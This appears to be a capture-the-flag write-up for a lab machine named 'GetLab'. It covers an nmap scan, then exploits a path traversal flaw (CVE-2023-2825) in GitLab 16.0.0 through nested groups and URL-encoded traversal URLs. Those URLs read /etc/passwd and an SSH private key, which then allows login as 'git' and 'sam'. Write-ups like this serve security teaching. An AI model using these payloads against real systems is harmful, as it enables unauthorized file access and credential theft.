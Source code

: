 # GetLab

# Enumeration
---
### Nmap
#

TCP scan of all ports, including default scripts.

```bash
# Command
sudo nmap -v -sS -sV -sC -T4 -p- -oA getbash-tcp-fullportscan 10.129.229.69

# Output
# Nmap 7.94SVN scan initiated Mon Dec 16 11:33:36 2024 as: nmap -v -sS -sV -sC -T4 -p- -oA getbash-tcp-fullportscan 10.129.229.69
Nmap scan report for 10.129.229.69
Host is up (0.050s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 f3:e8:cf:2e:39:5f:c9:c8:f1:e8:97:a8:04:6a:28:c2 (RSA)
|   256 9b:8a:64:29:f0:b8:c3:c0:4c:55:f0:78:27:ce:c5:86 (ECDSA)
|_  256 c8:2b:18:14:bd:77:2b:0c:68:f6:c3:cb:92:46:34:66 (ED25519)
80/tcp   open  http    nginx
|_http-favicon: Unknown favicon MD5: 66F9A1C3F2CFD0DF1B570990E86D3095
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 57 disallowed entries (15 shown)
| / /autocomplete/users /autocomplete/projects /search 
| /admin /profile /dashboard /users /api/v* /help /s/ /-/profile 
|_/-/ide/ /-/experiment /*/new
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.129.229.69/users/sign_in
8060/tcp open  http    nginx 1.20.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.20.2
| http-methods: 
|_  Supported Methods: GET HEAD POST
9094/tcp open  unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 16 11:34:12 2024 -- 1 IP address (1 host up) scanned in 36.71 seconds
```

# HTTP (Port 80)

Port 80 on this box is hosting GitLab, I create an account so I can access more of the application before browsing the site. 

After registering an account, the help page displays the current version installed on this machine: v16.0.0.

![image](https://github.com/user-attachments/assets/a7ac5104-a772-46bb-9880-4d69b2bd56e8)

This version has a prominant vulnerability: **[CVE-2023-2825](https://www.getastra.com/blog/vulnerability/cve-2023-2825/#:~:text=About%20CVE%2D2023%2D2825,and%20Enterprise%20Edition%20version%2016.0.)**

This vulnerability is a Path Traversal vulnerability, it requirews you to create 10 nested group and then create a propject in the final group. In this group you can raise an issue with an attachment, the response to this request will give you the file path for the upload, this is where the path traversal vulnerability lies. 

The followin 2 guides were used to exploit this vulnerability:
[Juniper Guide](https://blogs.juniper.net/en-us/threat-research/cve-2023-2825-gitlab-arbitrary-path-traversal-vulnerability)
[Occamsec Guide](https://occamsec.com/exploit-for-cve-2023-2825/)

A public PoC can be found here:
[Public Exploit PoC](https://github.com/Occamsec/CVE-2023-2825)

A minimum of 10 groups are needed, this is the number needed to reach the base directory, this is because on a standard Gitlab install, file attachments are uploaded to `/var/opt/gitlab/gitlab-rails/uploads/@hashed/<a>/<b>/<secret>/<secret>/<file>`. I'm assuming there is a rule in the code allowing you to traverse the number of groups back. The 10 groups and project can be seen below:

![image](https://github.com/user-attachments/assets/b3b04139-ff2d-4887-9935-b53aace61a44)

From here I can upload anydocument to an issue on that project and see in the response the file path.

```text
"note":"[testDoc.txt](/uploads/b5b4ddeeccb3365ce8ca8b9fa5b31900/testDoc.txt)
```

I can append this to the URL to view the file, the full URL in this example would be:

```text
http://<ip>/group-1/group-2/group-3/group-4/group-5/group-6/group-7/group-8/group-9/group-10/group-11/project-2/uploads/b5b4ddeeccb3365ce8ca8b9fa5b31900/testDoc.txt
```

It is this URL I can exploit, by using path traversal to access files instead of test Doc.txt. The rule in this exploit is to traverse the number of groups + 1, in this case that will be 11. Forward slashes must also be URL encoded. The full attack URL ends up:

```text
http://<ip>/group-1/group-2/group-3/group-4/group-5/group-6/group-7/group-8/group-9/group-10/group-11/project-2/uploads/b5b4ddeeccb3365ce8ca8b9fa5b31900/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```

This traverses to the base directory and accesses /etc/passwd:

![image](https://github.com/user-attachments/assets/02fad883-6a92-4b18-958f-3d16d518b900)

We can now seemingly access any area of the file system, and have knowlege of users and their home directories from the /etc/passwd file. Adjusting the payload we can look for SSH private keys. The new payload, using the home directory of the git user taken from the /etc/passwd file is:

```text
/group-1/group-2/group-3/group-4/group-5/group-6/group-7/group-8/group-9/group-10/group-11/project-2/uploads/b5b4ddeeccb3365ce8ca8b9fa5b31900/..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fvar%2Fopt%2Fgitlab%2F.ssh%2Fid_rsa
```

![image](https://github.com/user-attachments/assets/a0de23b7-27a8-4af7-97e8-aa1f36d4abaf)

We can now save this on our attack machine and use ssh to connect to the target using the git user. 

```bash
┌──(kali㉿kali)-[~/Documents/HTB/getbash/ssh-key]
└─$ ssh -i id_rsa git@10.129.229.69
Linux getlab 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Dec 17 09:26:58 2024 from 10.10.14.5
$ id
uid=997(git) gid=997(git) groups=997(git)
```

Unfortunately we do not have permission to access the flag with the git user, after trying a few things I tried the same ssh key with the only non-system user on the machine 'sam'. They key works and I was able to access the flag, proof below:

![image](https://github.com/user-attachments/assets/6eecf516-923d-42be-aa80-2819bdb7e3b6)
